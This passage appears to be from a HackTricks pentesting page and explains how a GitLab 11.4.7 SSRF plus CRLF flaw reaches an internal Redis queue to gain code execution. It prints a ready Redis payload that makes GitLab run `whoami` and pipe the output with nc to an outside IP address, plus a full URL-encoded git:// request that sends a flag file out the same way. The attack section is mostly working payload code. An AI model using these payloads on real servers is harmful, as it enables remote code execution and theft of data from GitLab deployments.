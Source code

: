 Therefore, if you find a **SSRF vuln** in a website and you can **control** some **headers** (maybe with a CRLF vuln) or **POST parameters**, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In **Gitlab11.4.7** were discovered a **SSRF** vulnerability and a **CRLF**. The **SSRF** vulnerability was in the **import project from URL functionality** when creating a new project and allowed to access arbitrary IPs in the form \[0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the **CRLF** vuln was exploited just **adding %0D%0A** characters to the **URL**.

Therefore, it was possible to **abuse these vulnerabilities to talk to the Redis instance** that **manages queues** from **gitlab** and abuse those queues to **obtain code execution**. The Redis queue abuse payload is:

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

And the **URL encode** request **abusing SSRF** and **CRLF** to execute a `whoami` and send back the output via `nc` is:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```

_For some reason (as for the author of_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _where this info was took from) the exploitation worked with the `git` scheme and not with the `http` scheme._

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
